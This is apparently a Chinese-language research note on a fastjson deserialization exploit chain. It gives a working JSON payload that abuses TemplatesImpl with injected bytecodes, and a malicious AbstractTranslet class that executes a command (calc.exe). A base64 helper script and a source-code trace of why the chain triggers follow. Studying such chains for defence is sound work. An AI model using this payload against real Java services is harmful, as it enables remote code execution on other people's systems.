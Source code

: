 - 实战可以利用，JDNI注入基于较低版本的JDK，LDAP适用范围更广
- 必须能出网，加载远端的恶意字节码，造成了局限性
<a name="BORQX"></a>
### TemplateImpl
```java
String payload = "{\"a\":{\n" +
    "\"@type\":\"java.lang.Class\",\n" +
    "\"val\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"\n" +
    "},\n" +
    "\"b\":{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
    "\"_bytecodes\":[\"!!!Payload!!!\"],\"_name\":\"a.b\",\"_tfactory\":{},\"_outputProperties\":{}}";
JSON.parse(payload, Feature.SupportNonPublicField);
```
注意其中的Payload来自于恶意类，该类应该继承自com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet
```java
public class TEMPOC extends AbstractTranslet {
    public TEMPOC() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] haFndlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        TEMPOC t = new TEMPOC();
    }
}
```
类似第一条链，使用两个对象绕过，其中的Payload为恶意类的字节码再Base64编码的结果，给出简易的py脚本
```java
fin = open(r"PATH-TO-TEMPOC.class", "rb")
byte = fin.read()
fout = base64.b64encode(byte).decode("utf-8")
print(fout)
```
该链需要开启`Feature.SupportNonPublicField`参数再反射设置属性，查看官方说明，如果某属性不存在set方法，但还想设置值时，需要开启该参数，这里的情况正好符合，而实际项目中很少出现这种情况，导致该链较鸡肋，没有实际的意义（其实`TemplateImpl`类中有set方法，比如`setTransletBytecodes`，但是名称和`Bytecodes`不一致）<br />在com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseField设置属性时会有判断
```java
final int mask = Feature.SupportNonPublicField.mask;
if (fieldDeserializer == null
    && (lexer.isEnabled(mask)
        || (this.beanInfo.parserFeatures & mask) != 0)) {
    ......
```
反序列化时，fastjson中会把”_”开头的属性替换为空。并在`outputProperties`设置值时调用`getOutputProperties`
```java
public synchronized Properties getOutputProperties() {
    try {
        return newTransformer().getOutputProperties();
    }
    catch (TransformerConfigurationException e) {
        return null;
    }
}
```
调用到`com.sun.org.apache.xalan.internal.xsltc.trax.newTransformer`方法
```java
transformer = new TransformerImpl(getTransletInstance(), _outputProperties, _indentNumber, _tfactory);
```
跟入`getTransletInstance`